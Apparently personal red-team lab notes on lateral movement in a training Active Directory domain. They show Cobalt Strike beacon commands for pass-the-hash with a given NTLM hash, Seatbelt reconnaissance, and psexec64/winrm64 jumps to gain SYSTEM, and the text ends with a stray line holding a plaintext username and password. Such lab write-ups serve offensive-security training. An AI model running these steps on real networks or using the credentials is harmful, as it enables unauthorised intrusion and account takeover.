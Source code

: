 
Utilizing Pass The Hash we can laterally move to all boxesthat jking is an administrator on.
John King is a member of `SUPPORT ENGINEERS` which is a group that are `SERVER ADMINS` on below computers.

Server Admins:
- web.dev.cyberbotic.io
- sql-2.dev.cyberbotic.io
- fs.dev.cyberbotic.io

Workstation Admins:
- wkstn-1.dev.cyberbotic.io
- wkstn-2.dev.cyberbotic.io

Passing the hash to become jking
```powershell
beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
```

## Seatbelt.exe
Running Seatbelt.exe on web machine to get information
```powershell
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe OSInfo -ComputerName=web
```
![[Pasted image 20230829114809.png]]
Jumping using winrm utilizing the smb pipe listener
`The SMB Beacon is an excellent choice when moving laterally, because the SMB protocol is used extensively in a Windows environment, so this traffic blends in very well.`
Winrm Kept failing
```powershell
jump winrm64 web.dev.cyberbotic.io smb
```
![[Pasted image 20230829115713.png]]
Tried psexec64 and it worked first try.
```powershell
jump psexec64 web.dev.cyberbotic.io smb
```
![[Pasted image 20230829115847.png]]
Now have system on web as well


ned.flanders_adm /d:corp.local /p:Lefthandedyeah!